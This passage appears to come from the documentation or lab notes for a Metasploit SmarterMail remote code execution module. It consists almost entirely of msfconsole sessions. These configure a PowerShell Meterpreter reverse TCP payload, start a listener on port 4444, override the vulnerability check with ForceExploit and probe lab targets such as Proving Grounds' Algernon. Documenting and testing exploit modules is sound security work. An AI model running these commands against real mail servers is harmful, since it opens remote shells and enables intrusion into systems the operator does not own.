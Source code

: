 ```
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Build 6985 on Windows 10 Pro

```
msf > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf exploit(windows/http/smartermail_rce) > set ForceExploit true
ForceExploit => true
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6985.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 100.0.6985.
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Exploit completed, but no session was created.
msf exploit(windows/http/smartermail_rce) > 
```

### SmarterMail Build 6919 on Windows 10 Pro (Algernon from Proving Grounds Practice)

```
msf > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.247.65
RHOSTS => 192.168.247.65
msf exploit(windows/http/smartermail_rce) > set LHOST tun0
LHOST => tun0
msf exploit(windows/http/smartermail_rce) > check

[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6919.
[*] 192.168.247.65:9998 - The target appears to be vulnerable.
```